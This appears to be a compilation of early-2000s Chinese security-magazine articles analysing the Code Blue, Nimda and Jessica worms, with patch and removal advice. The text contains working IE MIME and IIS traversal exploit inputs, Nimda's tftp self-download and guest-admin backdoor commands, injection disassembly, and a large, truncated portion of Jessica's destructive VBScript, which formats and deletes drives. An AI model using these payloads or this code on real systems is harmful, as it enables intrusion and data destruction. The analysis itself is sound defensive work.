根据上面对“蓝色代码”蠕虫程序的详细分析可以看出，该蠕虫的危害性相对“红色代码”来说还是比较小的，因为毕竟这个“蓝色代码”的传播过程比较复杂，难以在短时间内完成传染工作，据我测试该蠕虫传染一个主机的全过程大约需要 50 秒左右，而且一旦在传播过程中出现一点错误，例如 UDP 包丢失，就会造成传染失败。

所以据我推测，“蓝色代码”蠕虫会在部分网段内流行，但无法传染大范围的网段，也无法形成“红色代码”那样的大规模的破坏性影响，所以大家尽可不必惊慌失措。

## "尼姆达"蠕虫分析与解决方案

编者按：最近一段时间网络安全界闹起了“虫灾”，继“红色代码”和“蓝色代码”之后，又出现了一种传染性更强的网络蠕虫病毒——尼姆达。该蠕虫利用 Windows 操作系统的多种漏洞进行传播，其传播速度和范围远远超出了以前的所有网络蠕虫。在该病毒出现不到一周时间内，全球就有数以十万计的服务器和个人电脑被感染，并造成巨大破坏。本期专题详细分析该蠕虫病毒的传播途径以及防止方法。

- 一、“尼姆达”蠕虫概述
- 二、“尼姆达”蠕虫所利用的漏洞
- 三、“尼姆达”的传播方式
- 四、“尼姆达”的驻留方式
- 五、“尼姆达”留下的系统后门

## 六、预防和清除“尼姆达”蠕虫

文/isno

### “尼姆达”蠕虫概述

同“红色代码”和“蓝色代码”一样，“尼姆达”也是通过网络对 Windows 操作系统进行感染的一种蠕虫型病毒。但是它与以前所有的网络蠕虫的最大不同之处在于，“尼姆达”通过多种不同的途径进行传播，而且感染多种 Windows 操作系统。“红色代码”和“蓝色代码”只能够利用 IIS 的漏洞来感染 Windows 2000 和 Windows NT 服务器，而“尼姆达”则利用了至少四种微软产品的漏洞来进行传播，而且不仅感染 Windows 2000 和 Windows NT 服务器，对于普通用户所使用的 Windows 95/98/Me 也同样进行感染。这使得这种蠕虫的复制和传播能力非常之强。

下面是对“红色代码”、“红色代码 II”、“蓝色代码”和“尼姆达”这 4 种蠕虫型病毒的比较：可以看出，与前几种的蠕虫相比，“尼姆达”最大的特点就是传播方式多种多样，传播范围极为广泛，这也正是导致该病毒不仅传播速度快，而且传播广度很大，从而增加了病毒的危害性以及消灭该病毒的难度。

| 病毒名称 | 红色代码 | 红色代码 II | 蓝色代码 | 尼姆达 |
|---|---|---|---|---|
| 传播范围 | Windows 2000 | Windows 2000 | Windows 2000/NT | Windows 95/98/Me, Windows 2000/NT, Windows XP |
| 传播方式数量 | 1 | 1 | 1 | 5 |
| 利用漏洞数量 | 1 | 1 | 2 | 4 |
| 感染方式 | 内存传播 | 内存传播 | 文件复制 | 文件复制 |
| 破坏性 | 占用系统资源 | 占用系统资源，留下系统后门 | 占用系统资源 | 占用系统资源，留下系统后门 |
| 攻击性 | 攻击白宫网站 | 无 | 攻击中联绿盟网站 | 无 |
| 传播速度 | 快 | 极快 | 慢 | 快 |

### “尼姆达”蠕虫所利用的漏洞

“尼姆达”的传播途径很多，其中总共利用了 4 种微软软件的漏洞，这些漏洞都是最近一段时间网络安全界发现的微软的最新漏洞，为了便于大家了解蠕虫是如何使用这些漏洞进行传播的，我们先简单介绍一下这几种漏洞的简要情况。

### 1. 微软 IE 异常处理 MIME 头漏洞

这是微软的 IE 浏览器中存在的重大安全缺陷。简单来说，IE 在处理 MIME 头中“Content-Type”处指定的某些类型时存在问题，攻击者可以利用这类缺陷在 IE 客户端执行任意命令。例如将下列内容存为“test.eml”文件。

```
From "xxxxx"
Subject mail
Date Thu 2 Nov 2000 13:27:33 +0100
MIME-Version 1.0
Content-Type multipart/related
type="multipart/alternative"
boundary="1"
X-Priority 3
X-MS Mail-Priority Normal
X-Unsent 1

--1
Content-Type multipart/alternative
boundary="2"

--2
Content-Type text/html
charset="iso-8859-1"
Content-Transfer-Encoding quoted-printable

<HTML>
<HEAD>
</HEAD>
<BODY bgColor=#ffffff>
<iframe src=cid:THE-CID height=0 width=0></iframe>
HELLO MY FRIEND <BR>
</BODY>
</HTML>
--2--

--1
Content-Type audio/x-wav
name="hello.bat"
Content-Transfer-Encoding quoted-printable
Content-ID <THE-CID>

echo OFF
dir *.*
--1
```

如果在资源管理器中双击打开这个文件，由于很多情况下 "eml" 扩展名和微软的 Outlook/Outlook Express 关联，将调用它们解释 "test.eml"。由于这封邮件是 HTML 格式的，Outlook/Outlook Express 最终调用 IE 来解释它。IE 根据邮件内容中 MIME 设置，解析出附件。一般情况下，即使有附件也不会自动下载。如果做了某些设置使得某些类型的附件会自动下载，也将提示有附件需要下载，用户选择直接打开还是保存。

但是 IE 在解释上述邮件的时候，由于未能正确处理 “Content-Type audio/x-wav”，导致附件 “hello.bat” 自动下载，而且更为严重的是下载结束后自动打开 “hello.bat”，整个过程中并不提示用户。上述例子中就是最终执行了 “dir *.*” 命令。如果从 WEB 页面上访问这个 eml 文件，比如 `http://wormhost/test.eml`，同样自动下载并无提示执行 “hello.bat”。IE 在解释扩展名为 eml、nws 的文件时，都存在上述问题，把 “test.eml” 更名为 “test.nws”，前述现象一致。尚未发现 IE 在解释其他扩展名的文件时有何缺陷，如果演示用 eml 文件的扩展名被修改成非 eml、非 nws，即使强行指定 IE 打开该文件，也不会触发漏洞。

这个漏洞不仅可以导致执行任意命令，而且还可以执行任意 EXE 文件。具体方法是将 EXE 文件进行 base64 编码，然后附在邮件 eml 文件后面，这样当用户浏览邮件时就会自动去执行该 EXE 文件。

这个漏洞是“尼姆达”蠕虫的主要传播方法；“尼姆达”把自身代码进行 base64 编码之后加入到可引起自动执行漏洞的 eml 文件当中，保存为名为 readme.eml 的文件。如果用户使用 Outlook 或 Outlook Express 来接受邮件的话，当浏览蠕虫邮件时就会自动执行蠕虫文件，从而导致系统被感染。如果使用其他的邮件接受程序，例如 FoxMail，则当打开附件中的 readme.eml 文件时也会遭到感染。

这一漏洞不仅被用来通过电子邮件进行传播，“尼姆达”还把感染过的主机中的网页文件加入自动执行蠕虫文件的 javascript 程序，这样当任何人使用 IE 浏览器浏览被感染主机的网页时，都会遭到这个漏洞的袭击，而被感染上病毒。

所有 IE 5.0、IE 5.01 以及 IE 5.5 版本的浏览器都受此漏洞的影响。

### 2. Microsoft IIS Unicode 解码漏洞

微软 IIS 4.0 和 IIS 5.0 在 Unicode 字符解码的实现中存在一个安全漏洞，导致用户可以远程通过 IIS 执行任意命令。当 IIS 打开文件时，如果该文件名包含 unicode 字符，它会对其进行解码，如果用户提供一些特殊的编码，将导致 IIS 错误地打开或者执行某些 web 根目录以外的文件。

例如下面 URL 请求将导致在目标主机上执行 dir 命令：
`http://www.victim.com/scripts/..%c1%1c../winnt/system32/cmd.exe /c + dir`

“尼姆达”利用这个漏洞来上传并执行蠕虫程序。

### 3. Microsoft IIS 二次解码漏洞

这个漏洞与 Unicode 漏洞类似，IIS 在加载可执行 CGI 程序时，会进行两次解码。第一次解码是对 CGI 文件名进行 http 解码，然后判断此文件名是否为可执行文件，例如检查后缀名是否为 ".exe" 或 ".com" 等等。在文件名检查通过之后，IIS 会再进行第二次解码。正常情况下，应该只对该 CGI 的参数进行解码，然而，IIS 错误地将已经解码过的 CGI 文件名和 CGI 参数一起进行解码。这样，CGI 文件名就被错误地解码了两次。

这样，通过精心构造 CGI 文件名，攻击者可以绕过 IIS 对文件名所作的安全检查，例如对 "../" 或 "./" 的检查，这将导致攻击者可以执行任意系统命令。

例如下面 URL 请求将导致在目标主机上执行 dir 命令：
`http://www.victim.com/scripts/..%255c../..%255c../..%255c../winnt/system32/cmd.exe /c + dir`

“尼姆达”对这个漏洞的利用与对 Unicode 漏洞类似，同样是通过它来上传并执行蠕虫程序。

### 4. Microsoft IIS 5.0 系统文件列表权限提升漏洞

因为利用 Unicode 和二次解码漏洞获得的系统权限比较低，所以“尼姆达”还需要通过下面这个漏洞来提升自己的运行权限。这是 Microsoft IIS 5.0 中存在一个安全漏洞，可以导致攻击者提升权限。IIS 5.0 有一个文件列表，所有在这个列表中的程序（一些 DLL 文件）都会在 IIS 进程空间中运行。然而，缺省这个列表中只包含这些文件的文件名，而不是其绝对路径名。因此，任何可执行文件，如果其文件名与文件名列表中的文件匹配，则当它执行时就会在 IIS 进程空间中运行，这使得它以父进程的权限被执行，通常是 SYSTEM 权限。

“尼姆达”通过结合 Unicode 以及二次解码漏洞在目标主机的可执行虚拟目录下上传一个可执行文件 Admin.dll，并远程通过 web 接口执行它。因为 Admin.dll 这个文件名正好在 IIS 的文件名列表中，所以这个蠕虫就能够以系统最高权限来运行了。

值得一提的是，“尼姆达”病毒的名字来源于病毒代码中的一个英文字符串 "Nimda"，国人便将其译成了“尼姆达”。而仔细观察就可发现，Nimda 正是 Admin 的反序拼写，而“尼姆达”病毒正是利用了 Admin.dll 文件作为一种传播途径的，可以猜测，Nimda 这个名字就是来源于 Admin。

## “尼姆达”的传播方式

如前所述，“尼姆达”病毒的最大特点就是它的传播方式非常多，这也是它传播范围广泛的重要原因。“尼姆达”除了通过典型的 E-mail 传播和 IIS 漏洞传播之外，还利用了与“欢乐时光”病毒类似的网页传播，以及其独创的对 .exe 文件的感染以及对 Word 文档的传播方式。下面我们就来看看其每种传播方式的具体情况。

### 1. 通过电子邮件传播

根据一段时间的跟踪分析，我发现大部分中了“尼姆达”病毒的主机都是通过电子邮件被感染的。尤其是对于安装 Windows 95/98/Me 的普通用户来说，这种利用 E-mail 进行传播的方法可以说是最简便也是最有效的途径。

从这种传播方法来看，“尼姆达”可以算是一种邮件病毒，它也具备所有邮件病毒的特征。从早期的“爱虫”，到后来的 Sircam，所有的邮件病毒都是通过将病毒代码附于邮件附件当中诱使用户执行来达到感染的。但是“尼姆达”显然更加技高一筹，它利用 IE 浏览器异常处理 MIME 头漏洞来传播，这样用户无须执行邮件附件，只要浏览邮件内容就会遭到感染。“尼姆达”蠕虫通过邮件进行传播的具体方法为：它会向被攻击者的邮件地址发送一封携带了蠕虫附件的邮件。这个邮件由两部分 MIME 类型的信息组成。第一部分的 MIME 类型为 "text/html"，但却没有包含文本，因此看起来是空的。第二部分的 MIME 类型为 "audio/x-wav"，但它实际上携带的是一个名为 "readme.exe" 的 base64 编码的可执行附件。

利用了“微软 IE 异常处理 MIME 头漏洞”安全漏洞，任何运行在 x86 平台下并且使用微软 IE 5.5 SP1 或之前版本（IE 5.01 SP2 除外）来显示 HTML 邮件的邮件客户端软件，都将自动执行邮件附件。用户甚至只需打开或预览邮件即可使蠕虫被执行。

那么蠕虫是从哪里获得要攻击的目标邮件的地址的呢？它会在 Internet 临时文件夹中读取所有 htm 和 html 文件，并在这些文件中搜索看起来象邮件地址的字符串，然后向这些地址发送一份包含蠕虫程序的邮件。“尼姆达”蠕虫在 Windows 注册表中记录最后一批邮件发送的时间，然后每 10 天重复搜索邮件地址并发送蠕虫邮件的过程。

### 2. 通过 IIS 漏洞进行传播

如果“尼姆达”只能通过 email 进行传播的话，它是很难对互连网上的大量具有固定 IP 的服务器进行感染的。然而这个蠕虫的高明之处就在于，它的传播目标不仅仅是使用电子邮件的普通用户，而且还有运行 IIS 的 Windows 服务器。

“尼姆达”的运行程序会产生一个随机 IP 地址，它对 IP 地址的选择显然是受到了“红色代码 II”的启发，攻击的 IP 地址中，有 50% 的几率在与本地 IP 地址的 B 类网络中；25% 的几率，在与本地 IP 地址的 A 类网络中；25% 的几率，随机选择 IP 地址。

然后“尼姆达”会启动一个 tftp 服务器，监听在 udp/69 端口。一旦发现受影响的主机，蠕虫会通过目标主机上执行 tftp 命令来进行自身的复制传播。这点显然是受到了“蓝色代码”的启发。

在开启 tftp 服务器和确定攻击 IP 地址之后，“尼姆达”就开始对这个 IP 地址进行扫描，它首先扫描“红色代码 II”留下的后门，我们知道，被“红色代码 II”攻击过的系统中的 Web 虚拟目录中会留下一个名为 root.exe 的后门程序。“尼姆达”就首先扫描 “/scripts/root.exe”，如果这个程序存在的话，“尼姆达”蠕虫就企图通过它在系统上执行命令。

它首先执行类似下列命令来向其发送蠕虫代码：
`GET /scripts/root.exe /c + tftp + -i + localip + GET + Admin.dll HTTP/1.0`

其中 localip 是本主机的 IP 地址，这样就通过 tftp 协议将本地的 Admin.dll 文件传播过去了，而这个 Admin.dll 实际上就是蠕虫代码本身，只不过它在这里是以 DLL 文件的形式存在。这样做的目的，就像前面所讲述的那样是为了利用 IIS 的系统文件列表权限提升漏洞来提升蠕虫运行的权限。

在将 Admin.dll 上传到目标主机上之后，蠕虫就会通过发送 `GET /scripts/Admin.dll HTTP/1.0` 请求来运行蠕虫。如上所述，这样蠕虫是以系统最高权限来运行的。

如果在扫描 /scripts/root.exe 时没有成功，即目标机中没有“红色代码 II”留下的后门程序，那么“尼姆达”蠕虫程序会继续扫描目标上的 Unicode 漏洞以及二次解码漏洞，以期通过这两个漏洞在系统上执行命令，如果发现其中某一个漏洞，蠕虫就会重复利用 /scripts/root.exe 所发送的 tftp 命令来上传 Admin.dll，然后运行。

Admin.dll 作为 ISAPI 程序运行后，会把自身拷贝到 Windows 系统文件夹命名为 mmc.exe，然后以带参数方式运行 `mmc.exe -qusery9bnow`。这样就完成了通过 IIS 进行传播的过程。

### 3. 通过网页进行传播

对于受感染的 WWW 服务器，“尼姆达”会修改其上的 WWW 网页文件，使得浏览该网站的用户受其感染。当蠕虫是通过 Admin.dll 运行时，蠕虫生成的新程序（mmc.exe）会在整个硬盘中搜索后缀为 .HTML、.ASP、.HTM，文件名为 DEFAULT、INDEX、MAIN、README 的文件。一旦发现了这样的文件，蠕虫会在该目录下创建一个 README.EML 文件，它是一个由两部分组成的 MIME 编码的文件，里面也包含了蠕虫拷贝。然后蠕虫会在找到的文件的末尾增加如下 JavaScript 代码：

```javascript
<script language="JavaScript">
window.open("readme.eml", null, "resizable=no, top=6000, left=6000")
</script>
```

这样，其他用户如果使用浏览器浏览被修改的网页或者资源管理器（打开了预览功能）来浏览共享服务器上的 README.EML 文件时，利用 IE 浏览器异常处理 MIME 头漏洞，蠕虫就可以传播到新的客户端上。

### 4. 通过修改 exe 文件进行传播

前面三种传播方式都是通过网络方式进行的，也是“尼姆达”最常用的传染方式，但是这个狡猾的蠕虫对仅仅通过网络传播还不满意，它还要像普通的病毒那样通过文件来进行传播。“尼姆达”蠕虫首先选择感染 exe 文件，这样当通过软盘或局域网进行文件复制时，就会把蠕虫程序传播在其他的机器上面。

感染 exe 文件的具体做法是，首先查找注册表中 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths` 键的内容，这个键值存放了主机上的可执行文件名字，一旦找到，“尼姆达”就会以病毒的方式感染这些文件.它把原来的 exe 文件作为资源存储在新的 exe 文件当中，这样当运行新的 exe 文件时首先执行蠕虫程序，然后再调用原来的 exe 文件来执行，这样对于用户来说感觉上只是执行了原来的 exe 文件。还有一点，“尼姆达”如果发现 exe 文件名为 winzip32.exe，则不进行感染。这样做可能是为了避免重要程序 WinZip 无法运行导致系统崩溃吧。

### 5. 通过 Word 文档进行传播

因为修改 exe 文件容易被杀毒软件检测到，所以“尼姆达”还通过替换 Word 程序的一个动态连接库文件来达到传播的目的。

蠕虫程序首先把自身复制到 Windows 目录中命名为 riched20.dll。然后它会搜索本地的共享目录中包含 doc 文件的目录，一旦找到，就会把自身复制到目录中命名为 riched20.dll，并将文件属性设置为隐藏和系统属性。由于 Windows Word 在打开该 doc 文件时，会首先在当前目录寻找 riched20.dll 并加载，这样就会运行到蠕虫代码了。通过这种方法，将使局域网中所有设置共享目录的机器遭到感染。

不仅如此，蠕虫还用找到的文档文件的名字加上 .eml 后缀来创建新文件，这些文件也是带有蠕虫拷贝的 MIME 编码的文件。这样会使得系统中出现大量 .eml 文件。

## “尼姆达”的驻留方式

“尼姆达”蠕虫会将自身拷贝到 Windows\System 目录中，命名为 load.exe，并修改 SYSTEM.INI 文件，将 Shell 部分改为如下内容：Shell = explorer.exe load.exe - dontrunold

这样每次系统启动时都会运行蠕虫程序。而且它会用自身拷贝替换 Windows 目录下的 riched20.dll。这样下次执行 Word 时会自动执行这个蠕虫。

如果蠕虫是以 readme.exe 文件名被执行的，它还会将自身拷贝到 Windows 临时目录中，并保存为随机文件名。

为了防止蠕虫进程出现在任务管理器中而被用户查杀，“尼姆达”在每次执行时会寻找 explorer 进程，并使用一种名为远程线程的技术，将自己的进程注册为 explorer 进程的一个远程线程。这样即使用户退出系统，蠕虫仍然可以继续执行，而且仅仅在任务管理器中杀掉名为 readme.exe 和 mmc.exe 进程是无法杀掉蠕虫的，因为蠕虫还隐藏在 explorer 的线程中。这部分内容使用了比较高超的编程技术，我们通过反汇编的代码来看看它具体是如何实现的。

```
.text    36174AB9 push offset aCreateRemoteThread
.text    36174ABE push hModule
.text    36174AC4 call esi    GetProcAddress
```

蠕虫程序首先通过调用 GetProcAddress 来获取 CreateRemoteThread 这个 API 的地址。

```
.text    36171E03 push esi    dwProcessId
.text    36171E04 push ebx    bInheritHandle
.text    36171E05 push 1F0FFFh    dwDesiredAccess
.text    36171E0A call ds    OpenProcess
.text    36171E10 mov edi, eax
.text    36171E12 cmp edi, ebx
.text    36171E14 jz    loc_36171EFE
```

然后调用 OpenProcess 来打开 explorer.exe 进程，把句柄保存在 edi 寄存器中，这里使用的 dwDesiredAccess 为 0x1F0FFF，即：
PROCESS_CREATE_THREAD | PROCESS_VM_OPERATION | PROCESS_VM_WRITE。

```
.text    36171E1A push 8000h
.text    36171E1F push ebx
.text    36171E20 push dword_3617ACAC
.text    36171E26 push edi
.text    36171E27 call dword_3617D5D8    VirtualFreeEx
```

蠕虫通过调用 VirtualFreeEx 来在 explorer.exe 进程中释放一定数量的虚拟内存空间，以便将蠕虫线程插入其中。

```
.text    36171E2D mov eax, dword_3617ACAC
.text    36171E32 push 40h
.text    36171E34 push 3000h
```

```
.text    36171E39 mov ecx, eax + 3Ch
.text    36171E3C mov ecx, ecx + eax + 50h
.text    36171E40 push ecx
.text    36171E41 push eax
.text    36171E42 push edi
.text    36171E43 call dword_3617D5DC    VirtualQueryEx
.text    36171E49 cmp eax, ebx
.text    36171E4B mov [ebp+var_4], eax
.text    36171E4E jz    loc_36171EFE
```

紧接着蠕虫调用 VirtualQueryEx 来得到 explorer.exe 进程中虚拟地址空间的信息。然后蠕虫又会调用 VirtualFreeEx 来在 explorer.exe 进程中释放一定数量的虚拟内存空间。

```
.text    36171E84 lea eax, [ebp+var_30]
.text    36171E87 push eax    ; flProtect
.text    36171E88 push 40h    ; flAllocationType
.text    36171E8A push esi    ; dwSize
.text    36171E8B push ebx    ; lpAddress
.text    36171E8C push edi    ; hProcess
.text    36171E8D call dword_3617D5D0    VirtualAllocEx
```

在完成释放虚拟内存空间的动作之后，蠕虫会调用 VirtualAllocEx 来在 explorer 进程的内存地址空间分配蠕虫文件名的缓冲区。

```
.text    36171E93 lea eax, [ebp+NumberOfBytesWritten]
.text    36171E96 push eax    ; lpNumberOfBytesWritten
.text    36171E97 push esi    ; nSize
.text    36171E98 push ebx    ; lpBuffer
.text    36171E99 push ebx    ; lpBaseAddress
.text    36171E9A push edi    ; hProcess
.text    36171E9B call ds:WriteProcessMemory
```

然后蠕虫程序调用 WriteProcessMemory 函数将蠕虫文件的路径名复制到 explorer 进程的内存空间，以便可以在 explorer 进程空间中访问到这个文件名。

```
.text    36171EC9 lea eax, [ebp+var_10]
.text    36171ECC push eax
.text    36171ECD push ebx
.text    36171ECE push dword_3617ACAC
.text    36171ED4 push offset sub_36171F05
.text    36171ED9 push ebx
.text    36171EDA push ebx
.text    36171EDB push edi
.text    36171EDC call dword_3617D5E0    CreateRemoteThread
```

接下来又经过一系列操作之后，蠕虫通过调用 CreateRemoteThread 来在远程 explorer 进程中插入一个蠕虫线程，这样蠕虫就作为 explorer.exe 进程的一部分来运行了。

## “尼姆达”留下的系统后门

和“红色代码 II”一样，“尼姆达”也会在被入侵的系统当中留下几个后门，使得黑客可以轻松访问被蠕虫感染的系统。

“尼姆达”蠕虫会将所有驱动器设置成共享状态，它会编辑如下注册表项：
HKLM\Software\Microsoft\Windows\CurrentVersion\Network\LanMan\C$ -> Z$

蠕虫会删除下列注册表项的所有子键以禁止共享安全性：
HKLM\SYSTEM\CurrentControlSet\Services\lanmanserver\Shares\Security

蠕虫还会修改下列注册表项：
HKLM\Software\Microsoft\Windows\CurrentVersion\Explorer\Advanced

调整 Hidden、ShowSuperHidden 和 HideFileExt 键值，使得使用资源管理器无法显示隐藏文件，这可以保护蠕虫代码免于被发现。

“尼姆达”蠕虫还激活了 Guest 用户，将其密码设置为空，并将其加入到 Administrators 组中（对于 Windows NT/2000/XP 用户）。它是通过执行下列命令来完成这项任务的：
net user guest /add
net user guest /active
net user guest ""
net localgroup Administrators guest
net localgroup Guests guest /add

最后，“尼姆达”蠕虫通过执行下列命令，将 C:\ 设置为完全共享：
net share c$=c:\

## 预防和清除“尼姆达”蠕虫

现在“尼姆达”的传播速度异常快速，对于还没有被它感染的用户来说应该尽快安装微软公司提供的漏洞补丁。首先应该将 IE 浏览器升级为 IE 6.0 以上版本，或者为低版本的 IE 浏览器安装补丁：

Internet Explorer 5.01 Service Pack 2
http://www.microsoft.com/windows/ie/downloads/recommended/ie501sp2/default.asp

Internet Explorer 5.5 Service Pack 2
http://www.microsoft.com/windows/ie/downloads/recommended/ie55sp2/default.asp

Internet Explorer 6
http://www.microsoft.com/windows/ie/downloads/ie6/default.asp

对于开启 IIS 服务的 Windows 系统来说，应该尽快安装微软最新的 IIS 安全漏洞补丁合集。

Windows NT 4 系统 IIS 补丁合集
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=32061

Windows 2000 系统 IIS 补丁合集
http://www.microsoft.com/Downloads/Release.asp?ReleaseID=32011

对于已经遭到“尼姆达”蠕虫感染的用户来说，应该尽快采取措施清除蠕虫。由于蠕虫修改和替换了大量的系统文件，因此手工清除可能比较繁琐而且不易清除干净。建议用户使用最新版本的反病毒厂商的杀毒软件来进行清除工作。目前各大反病毒厂商都已经可以查杀这种蠕虫病毒。您可能需要多次运行杀毒软件或清除程序，以确保彻底杀掉受感染的文件。

如果没有杀毒软件，也可以使用手工清除，具体清除步骤如下。在进行清除之前，应该首先在文件夹选项里设置“显示所有文件”：

- 1. 删除系统中 mmc.exe、load.exe、riched20.dll、admin.dll、readme.eml、readme.exe 等所有蠕虫文件。
- 2. 从原始安装盘中提取 riched20.dll 覆盖 Windows 系统文件夹里的同名蠕虫文件。
  Win98：在压缩包 Win98_35.CAB 中，解开找到 riched20.dll 拷贝到 system 目录。
  Win98se：在压缩包 Win98_41.CAB 中。
  Win2000：在 system32\dllcache 目录有备份，将它拷贝到 system32 目录。
  或者也可以从其它未感染过病毒的机器拷贝这些文件。
- 3. 查找工具，搜索包含“fsdhqherwqi2001”的 .exe 和 .dll 文件，以及包含“Kz29vb29oWsrLPh4eisrPb09Pb2”的 .eml 和 .nws 文件。
- 4. 检查所有文件名中包含 default、index、main、readme 并且扩展名为 htm、html、asp 的文件，将其中打开蠕虫程序的 JavaScript 程序删除。
- 5. 对于 Windows 95/98/ME 用户，您需要手工编辑 C:\windows\system.ini 文件，找到如下行：
  ```
  Shell = explorer.exe load.exe - dontrunold
  ```
  将其改为：
  ```
  Shell = explorer.exe
  ```
  保存退出。
- 6. 清除“红色代码 II”蠕虫留下的系统后门，搜索名为 root.exe 的文件，将其删除。
- 7. 禁止 Guest 用户，并将 Guest 用户从 Administrators 组中删除（只有对于 Windows NT/2000 用户需要执行此步骤）。
- 8. 检查共享，对于 Windows 95/98/ME 用户，应当删除各个硬盘的共享。对于 Windows NT/2000 用户，确保你的管理员口令具有足够的强度。
- 9. 重新启动计算机

## 透析 Jessica Worm 病毒

小编寄语：DfArTisT 最近总收到一些怪怪的邮件，邮件里还有一个怪怪的附件，乍看上去好像是 .txt 或 .html 文件，无害的样子，可是本小编虽然不算聪明，但还是知道那是蠕虫病毒。本来一直以为这类邮件病毒发作只是拼命复制自己，然后造成网络堵塞，但看过这位杨兄的文章后，只能感叹大开眼界。

文/杨慧超

随着计算机的发展，病毒的种类也在不停地翻新，近一年来网络蠕虫病毒气焰最是嚣张，臭名昭著的爱虫、欢乐时光等病毒就是其中之一。这些蠕虫病毒不管在传播途径、感染机制、破坏方式等与传统的病毒都有一定的不同，因此防范方法也较之以往有所不同。还是让我们来看一个具体的实例吧。近日收信时偶然发现了一个不寻常的邮件，竟然是 163 网管 (root@163.net) 给我寄来的。里面说 163 的免费电子邮箱要收费了，要我马上申请注册。由于我根本没有 163 的邮箱，所以觉得非常奇怪，再仔细看看，信里带一个名称为 Table.htm.vbs 的附件，看来八成是一个 VBS 病毒，赶快另存为文本文件，研究了一番，结果表明果然是一个 Visual Basic Script 编写的邮件病毒，而且手段毒辣，大有将我的硬盘彻底洗荡的企图。下面是源代码加了注释：

```vbscript
******* Jessica Worm *******
On Error Resume Next '容错语句，避免程序崩溃
dim filesys, sysdir, windir, file, vbscp
Set filesys = CreateObject("Scripting.FileSystemObject") '建立文件系统对象，必不可少
set file = filesys.OpenTextFile(WScript.ScriptFullName, 1) '以文本方式打开病毒自己
vbscp = file.ReadAll '读入自己的内容
main '进入主过程
sub main '主过程
On Error Resume Next
dim timeover, err, sm, imme, addadd, address, c
set timeover = CreateObject("WScript.Shell")
err = timeover.RegRead("HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout") '读入注册表中的超时键值
if err >= 1 then '超时设置
timeover.RegWrite "HKEY_CURRENT_USER\Software\Microsoft\Windows Scripting Host\Settings\Timeout", 0, "REG_DWORD"
end if
set sm = CreateObject("WScript.Shell")
imme = sm.RegRead("HKEY_USERS\.DEFAULT\Identities\C5D5F200-C07E-11D1-90A0-A3F032AC2F46\Software\Microsoft\Outlook Express\5.0\Mail\Send Mail Immediately")
if imme >= 0 then '修改 OE 的注册表键值，避免用户改为“不立即发送邮件”
sm.RegWrite "HKEY_USERS\.DEFAULT\Identities\C5D5F200-C07E-11D1-90A0-A3F032AC2F46\Software\Microsoft\Outlook Express\5.0\Mail\Send Mail Immediately", 1, "REG_DWORD"
end if
set addadd = CreateObject("WScript.Shell")
address = addadd.RegRead("HKEY_USERS\.DEFAULT\Identities\C5D5F200-C07E-11D1-90A0-A3F032AC2F46\Software\Microsoft\Outlook Express\5.0\Mail\Auto Add Replies To WAB")
if address >= 0 then '修改 OE 的注册表键值，避免用户改为“不自动添加通讯簿”
addadd.RegWrite "HKEY_USERS\.DEFAULT\Identities\C5D5F200-C07E-11D1-90A0-A3F032AC2F46\Software\Microsoft\Outlook Express\5.0\Mail\Auto Add Replies To WAB", 1, "REG_DWORD"
end if
Set windir = filesys.GetSpecialFolder(0) '得到 Windows 目录
Set sysdir = filesys.GetSpecialFolder(1) '得到 System 目录
Set c = filesys.GetFile(WScript.ScriptFullName) '得到病毒的路径
c.Copy sysdir & "\Kernel32.vbs" '将自己复制到 System 下
c.Copy windir & "\Rundll32.vbs" '将自己复制到 Windows 下
c.Copy sysdir & "\Table.htm.vbs" '向 System 下再复制一个
regload '调用写注册表的模块
mailworm '调用发带毒邮件的模块
killc '调用改写自动批处理的模块
alldrivers '调用删文件的模块
end sub
sub killc '破坏硬盘的过程
On Error Resume Next
dim fs, auto, disc, ds, ss, i, x, dir
Set fs = CreateObject("Scripting.FileSystemObject")
Set auto = fs.CreateTextFile("c:\Autoexec.bat", True) '建立或修改自动批处理
auto.WriteLine "@echo off" '屏蔽掉删除的进程
auto.WriteLine "Smartdrv" '加载磁盘缓冲，好毒啊！
Set disc = fs.Drives '得到驱动器的集合
For Each ds in disc
If ds.DriveType = 2 Then '如果驱动器是本地盘
ss = ss & ds.DriveLetter '就将符号连在一起
End if
Next
ss = LCase(StrReverse(Trim(ss))) '得到符号串的反向小写形式
For i = 1 to Len(ss) '遍历每个驱动器
x = Mid(ss, i, 1) '读每个驱动器的符号
auto.WriteLine "format/autotest/q/u " & x & ":" '反向 从 Z: 到 A: 自动格式化驱动器
```

```vbscript
Next
For i = 1 To Len(ss)
    x = Mid(ss, i, 1)
    auto.WriteLine "deltree/y " & x & " : " '怕 Format 失效，用 Deltree 双保险
Next
auto.Close '关闭批处理文件
Set dir = fs.GetFile("c:\Autoexec.bat")
dir.attributes = dir.attributes + 2 '将自动批处理文件改为隐藏
End Sub

Sub RegLoad '从注册表中自动加载的过程
    On Error Resume Next
    RegCreate "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Explorer", sysdir & "\Kernel32.vbs" '在 HKLM 的 Run 下添加键值
    RegCreate "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run\Explorer", windir & "\Rundll32.vbs" '在 HKCU 的 Run 下添加键值
End Sub

Sub AllDrivers '得到本机驱动器的过程
    On Error Resume Next
    Dim d, dc, s
    Set dc = filesys.Drives '得到本机驱动器的集合
    For Each d In dc '遍历每个驱动器
        If d.DriveType = 2 Or d.DriveType = 3 Then '如果是本地盘或网络盘
            FolderList d.path & "\" '就完善路径，如 C：就变成 C：\
        End If
    Next
    ListAdriev = s '得到目录列表
End Sub

Sub InfectFiles(FolderSpec) '感染文件的过程
    On Error Resume Next
    Dim f, f1, fc, ext, ap, cop, s, docu
    Set f = filesys.GetFolder(FolderSpec) '建立目录对象
    Set fc = f.Files '得到文件的集合
    For Each f1 In fc '遍历每个文件
        ext = filesys.GetExtensionName(f1.path) '得到文件的后缀名
        ext = LCase(ext) '将后缀名小写
        s = LCase(f1.name) '将文件路径小写
        If ext = "vbs" Then '如果后缀是 vbs
            Set ap = filesys.OpenTextFile(f1.path, 2, True) '就以文本方式打开
            ap.Write vbscp '将自己写入文件，达到感染目的
            ap.Close '关闭文件
        ElseIf ext = "doc" Or ext = "xls" Or ext = "zip" Or ext = "mp3" Then
            f1.attributes = 0 '如果后缀是 doc, xls, zip, mp3 就将文件的属性改为无
            Set docu = filesys.OpenTextFile(f1.path, 2, True) '以文本方式打开文件
